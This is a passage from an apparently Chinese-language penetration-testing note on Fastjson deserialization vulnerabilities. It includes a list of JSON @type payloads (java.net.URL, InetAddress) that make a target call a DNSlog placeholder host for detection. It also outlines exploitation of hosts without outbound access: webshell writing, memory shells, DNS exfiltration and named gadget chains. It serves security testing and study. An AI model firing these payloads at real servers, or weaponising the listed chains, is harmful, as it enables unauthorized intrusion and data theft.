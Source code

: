 [https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md](https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md)


FastJson漏洞，从2017年爆出以来，从最初的1.2.24版本到比较新的1.2.83 2022年，已经经历了较多版本，1.2.24之前版本可以做到通杀，且没黑白名单机制，而后在1.2.25中设置了默认不开启
autotype，1.2.47出现了不开启autotype的利用方式，且通杀。 基于漫长的历史时间，不同的版本存在不同的黑白名单机制，利用链也天差地别，所以黑盒测试中确定FastJson版本可能是能决定是否能成功利用的关键动作之一。


除开报错直接返回准确版本之外，探测方式主要为两种：一种为延迟探测，一种为DNSlog探测，这里只记录几个关键RCE版本

# 四、DNS探测

可用于探测是否访问DNS，但无法确定是否存在反序列化

```
{"@type":"java.net.URL","val":"http://dnslog"}
{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}
{"@type":"java.net.InetAddress","val":"dnslog"}
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
Set[{"@type":"java.net.URL","val":"http://dnslog"}]
Set[{"@type":"java.net.URL","val":"http://dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{{"@type":"java.net.URL","val":"http://dnslog"}:0
```

# 五、不出网利用

前言：不出网利用，通常是

1、写静态文件

2、写webshell，前提知道路径

3、内存马

4、dns外带

5、利用tomcat\Spring等中间件进行回显

常见的可用链：

```
1、BasicDataSource链
2、C3P0 hexbase的链
3、TemplatesImpl链
4、commons-io写webshell 或者读一些敏感文件
```

# 六、自动化工具复现
